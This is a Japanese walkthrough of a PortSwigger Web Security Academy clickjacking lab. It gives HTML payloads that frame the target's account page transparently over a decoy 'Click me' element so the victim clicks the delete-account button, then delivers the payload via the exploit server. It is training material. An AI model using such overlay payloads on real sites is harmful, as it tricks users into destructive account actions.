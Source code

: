 # CSRF トークン保護を使用した基本的なクリックジャッキング

次のハッキングラボを実施します  
https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected  
このラボには、 CSRF トークン で保護されたログイン機能とアカウント削除ボタンが含まれています。ユーザーは、おとり Web サイトで「クリック」という単語が表示される要素をクリックします。

- 1. 一般ユーザーでログインします
- 2. エクスプロイト サーバーに移動し、次の HTML テンプレートを Body セクションに貼り付けます。

```html
<style>
  iframe {
    position: relative;
    width: $width_value;
    height: $height_value;
    opacity: $opacity;
    z-index: 2;
  }
  div {
    position: absolute;
    top: $top_value;
    left: $side_value;
    z-index: 1;
  }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

- 3. クリックジャッキングの位置をアカウント削除ボタンに合うように調整します
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/caa9145d-53d5-4ca0-a8b1-300c03cd9c87)

```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 700px;
    opacity: 0.5;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 550px;
    left: 60px;
    z-index: 1;
  }
</style>
<div>Click me</div>
<iframe src="https://0ae1001f03856ff282a829e7004f0035.web-security-academy.net/my-account"></iframe>
```

- 4. Store ボタンを押して、deliver exploit to victim ボタンを押します。
